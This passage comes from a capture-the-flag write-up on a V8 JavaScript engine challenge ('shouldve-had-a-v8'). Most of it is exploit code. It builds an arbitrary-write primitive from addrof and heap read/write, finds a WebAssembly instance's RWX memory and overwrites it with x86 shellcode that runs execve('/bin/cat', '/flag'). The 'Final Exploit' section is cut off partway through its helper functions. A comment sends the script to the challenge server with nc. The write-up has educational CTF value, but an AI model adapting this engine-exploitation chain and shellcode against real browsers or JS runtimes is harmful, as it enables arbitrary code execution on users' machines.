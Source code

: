 After getting these primitives, we can either use the template provided along with the challenge files or we can do that on our own. Here is the one used by me:
```js
d = new ArrayBuffer(0x80);

print("[+]Heap leak --> *" + hex(addrof(d)) + " - 5n + 0x18n: " + hex(heap_read(addrof(d) - 5n + 0x18n)))

littleEndian = true;
bigEndian = false;

// arbitrary write primitive(not limited to just heap)
function arb_write(addr, data, littleEndian) {
  let dataview = new DataView(d);
  heap_write(addrof(d) - 5n + 0x18n, addr);
  dataview.setBigUint64(0, data, littleEndian); 
}

// execve("/bin/cat", ["/bin/cat", "/flag", NULL], NULL);
shellcode = [0x4831D25248BB2F62n, 0x696E2F6361745354n, 0x5F5248BB74000000n, 0x0000000053909090n, 0x909048BB2F666C61n, 0x672E747853545E52n, 0x5657545E4831C0B0n, 0x3B0F059090909090n];

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);

shellcode_addr = heap_read(addrof(wasmInstance) - 0x8212069n + 0x82120d0n);
print("[+]RWX addrss: " + hex(shellcode_addr));

let shcode_writer = new DataView(d);
heap_write(addrof(d) - 5n + 0x18n, shellcode_addr);

print("[+]Writing shellcode...");
// Overwriting the wasm code with our shellcode to print the flag, this can be replaced depending upon base machine architecture and what we wanna execute.
for (let i = 0n ; i < shellcode.length ; i++) {
  arb_write(shellcode_addr + i*8n, BigInt(shellcode[i]), bigEndian);
}

print("[+]Printing flag...");
// Trigger the wasm code.
wasmInstance.exports.main();
```

## Final Exploit
```js
//cat exploit.js | nc shouldve-had-a-v8.chal.uiuc.tf 1337
/* -----------------------------General helper functions to convert to hex, float to int and int to double----------------------------- */
var buf = new ArrayBuffer(8) // 8 byte array buffer
var f64_buf = new Float64Array(buf)
var u64_buf = new Uint32Array(buf)

function hex(val){    // input -> int, output -> hex-string
    return "0x"+val.toString(16)
}

function ftoi(val) {  // input -> float number, output -> integer
    f64_buf[0] = val
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n)
```